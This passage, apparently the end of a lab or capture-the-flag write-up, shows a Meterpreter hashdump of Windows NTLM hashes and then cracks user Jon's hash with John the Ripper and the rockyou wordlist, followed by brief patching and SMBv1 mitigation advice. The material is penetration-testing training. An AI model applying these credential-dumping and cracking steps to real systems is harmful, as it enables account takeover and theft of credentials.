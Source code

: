 Dumping password hashes:
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Cracking the password of `Jon` using `johntheripper`:
```
$ echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt
$ /usr/sbin/john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)
```

We successfully cracked the password for user Jon. This gives us access to the user account, completing the exploit chain.

###### Mitigation (Brief)
- Install current Windows patches.
- Disable SMBv1 if not required.

